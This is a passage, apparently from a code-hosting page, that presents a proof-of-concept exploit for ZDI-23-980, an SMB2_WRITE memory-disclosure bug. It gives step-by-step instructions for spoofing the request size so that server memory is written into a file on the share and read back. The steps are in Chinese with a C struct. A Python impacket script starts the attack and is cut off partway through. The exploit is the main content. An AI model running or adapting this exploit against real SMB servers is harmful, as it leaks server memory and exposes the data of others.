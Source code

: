 ZDI-23-980 利用 SMB_ECHO 的 PoC 漏洞利用
以下是 SMB_WRITE 路径的结构和步骤：

```
struct smb2_write_req {
	struct smb2_hdr hdr;
	__le16 StructureSize; /* Must be 49 */
	__le16 DataOffset; /* offset from start of SMB2 header to write data */
	__le32 Length;
	__le64 Offset;
	__u64  PersistentFileId; /* opaque endianness */
	__u64  VolatileFileId; /* opaque endianness */
	__le32 Channel; /* MBZ unless SMB3.02 or later */
	__le32 RemainingBytes;
	__le16 WriteChannelInfoOffset;
	__le16 WriteChannelInfoLength;
	__le32 Flags;
	__u8   Buffer[];
} __packed;

```

smb2_write_req 结构。

1. 设置 smb2_write_req->StructureSize = 49
2. 设置 smb2_write_req->DataOffset = smb2_write_req->StructureSize + 64，开始读取无数据包的内容
3. 设置 smb2_write_req->Length = 65536，将数据包中的 65536 字节写入文件
4. 设置 smb2_write_req->hdr.NextCommand = smb2_write_req->Length + smb2_write_req->DataOffset 来欺骗请求大小。
5. 以读写模式在 SMB 共享中打开一个文件： file_id = smb_open（"dump.bin"，"rw"） 6.
6. 设置 smb2_write_req->PersistentFileId = file_id
7. 发送请求
8. 读取 SMB 共享中的文件： dump = smb_read(file_id)


```
#!/usr/bin/env python3

from impacket import smb3
from pwn import p64, p32, p16, p8



def main(username: str, password: str, share: str, filename: str):
    print("[*] connecting to SMB server...")
    conn = smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445)

    print(f"[*] logging into SMB server in (username: '{username}', password: '{password}')...")
    conn.login(user=username, password=password)

    print(f"[*] connecting to tree/share: '{share}'")
    tree_id = conn.connectTree(share)

    packet = smb3.SMB3Packet()
    packet['Command'] = smb3.SMB2_WRITE

    StructureSize = 49
    DataOffset = 64 + StructureSize  # fixed packet size excl buffer
    Length = 0x10000  # max credits: 8096, so max buffer: 8096*8 (0x10000), but max IO size: 4*1024*1024 (0x400000)

    # this is ugly but acquires a RW handle for the '{filename}' file containing the memory
    file_id = conn.create(tree_id, filename, desiredAccess=smb3.FILE_READ_DATA|smb3.FILE_SHARE_WRITE, creationDisposition=smb3.FILE_OPEN|smb3.FILE_CREATE,
                            creationOptions=smb3.FILE_NON_DIRECTORY_FILE, fileAttributes=smb3.FILE_ATTRIBUTE_NORMAL, shareMode=smb3.FILE_SHARE_READ|smb3.FILE_SHARE_WRITE)
```